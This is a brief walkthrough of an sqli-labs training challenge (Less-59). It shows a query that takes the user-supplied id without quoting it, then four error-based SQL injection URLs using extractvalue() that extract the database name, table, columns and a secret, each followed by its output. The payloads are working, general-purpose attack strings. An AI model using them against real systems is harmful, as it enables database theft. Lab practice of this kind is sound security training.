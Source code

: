 - code 

```
$sql="SELECT * FROM security.users WHERE id=$id LIMIT 0,1";
```

- Dump database 

```
http://10.10.10.171/sqli-labs/Less-59/index.php?id=0 and extractvalue(1,concat(0x7e,(select database()),0x7e))--+
```

output

```
XPATH syntax error: '~challenges~'
```

- Dump table

```
http://10.10.10.171/sqli-labs/Less-59/index.php?id=0 and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e))--+
```

output

```
XPATH syntax error: '~PCS8OCWQYU~'
```

- Dump columns in table

```
http://10.10.10.171/sqli-labs/Less-59/index.php?id=0 and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='PCS8OCWQYU'),0x7e)) --+
```

output

```
XPATH syntax error: '~id,sessid,secret_F8AU,tryy~'
```

- Dump recode 

```
http://10.10.10.171/sqli-labs/Less-59/index.php?id=0 and extractvalue(1,concat(0x7e,(select group_concat(secret_F8AU) from PCS8OCWQYU),0x7e)) --+
```

output

```
XPATH syntax error: '~xTdkMJIvFYfA2bLs3mxZjMeM~'
```
